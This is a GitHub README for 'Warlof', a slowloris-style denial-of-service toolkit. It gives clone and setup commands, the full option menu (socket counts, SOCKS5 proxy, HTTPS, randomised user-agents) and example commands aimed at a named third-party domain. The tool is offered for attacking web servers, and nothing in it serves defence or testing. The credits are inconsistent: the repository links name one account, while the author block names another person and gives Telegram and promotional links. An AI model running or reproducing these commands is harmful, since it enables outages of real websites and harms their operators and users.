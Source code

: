 <h1 align="center">
  <br>
  <a  href="https://github.com/vanmanhgaming/ddosiplo"><img src="./img/logo.png" width="220px" border="2px" ></a>
  <br>
  Warlof
  <br>
</h1>

<h4 align="center">Low Bandwidth Distributed Denial-of-service attack ToolKit.</h4>

<br>

<p align="center">
  <a href="https://github.com/thenurhabib/warlof/releases">
    <img src="https://img.shields.io/github/release/thenurhabib/warlof.svg">
  </a>
  <a href="https://travis-ci.com/thenurhabib/warlof">
    <img src="https://img.shields.io/travis/com/thenurhabib/warlof.svg">
  </a>
  <a href="https://github.com/thenurhabib/warlof/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues-closed-raw/thenurhabib/warlof.svg">
  </a>
</p>

<br>

![multiple](./img/ss1.png)

<hr>

### Warlof is a Low Bandwidth Distributed Denial-of-service attack (DDoS) Toolkit. You can use it to attack on a web server with multiple sockets. You can customize how many requests you wanna send.

<br>

### Main Features
- DDoS Attack
- Send request in HTTPS also.
- Advance Error Handeling.
- Customize request numbers.
- Multiprocessing support

<br>

### Documentation
### install
```yaml
git clone https://github.com/thenurhabib/warlof.git
cd warlof
bash setup.sh
python3 warlof.py --help
```


#### Usage

```yaml
┌──(habib㉿kali)-[~/Desktop/warlof]
└─$ python3 warlof.py -h                  

             __       __                                                                                                
            (, )  |  /         /)    /)                                                                                 
               | /| / _   __  // ___//                                                                                  
               |/ |/ (_(_/ (_(/_(_)/(_                                                                                  
               /  |               /)                                                                                    
                                 (/                                                                                     
              @thenurhabib                                                                                              
                                                                                                                        
~ Low Bandwidth Denial-of-service attack (DDOS) Toolkit ~                                                               
    
usage: ⏬⏬

Warlof  - Help Menu

positional arguments:
  host                  - Domain Name or IP Address.
                                                                                                                        
optional arguments:                                                                                                     
  -h, --help            show this help message and exit                                                                 
  -p PORT, --port PORT  Domain/IP Port Number                                                                           
  -s SOCKETS, --sockets SOCKETS                                                                                         
                        Number of Requests.                                                                             
  -v, --verbose         Show attack details in terminal.                                                                
  -x, --useproxy        Use SOCKS5 proxy for connecting.                                                                
  --proxy-host PROXY_HOST                                                                                               
                        SOCKS5 proxy host.                                                                              
  --proxy-port PROXY_PORT                                                                                               
                        SOCKS5 proxy port                                                                               
  --https               Use HTTPS for the requests.                                                                     
  -ua, --randuseragents                                                                                                 
                        Randomizes user-agents with requests.                                                           
  --sleeptime SLEEPTIME                                                                                                 
                        Sleep time for every request..                                                                  
                                                                                                                                                     
```
<br>

### Example
```bash 
python warlof.py myphamthanhvan.com -p 443 -v
python3 warlof.py myphamthanhvan.com -p 443 -v
```


<br>


### Author
```yaml
Name       : vanmanhgaming
Medium     : https://httpsvpsvanmanhgaming.click
Telegram    : https://t.me/Vpsvanmanhgaming
HackerRank : https://httpsvpsvanmanhgaming.click

```

##### Thank You.
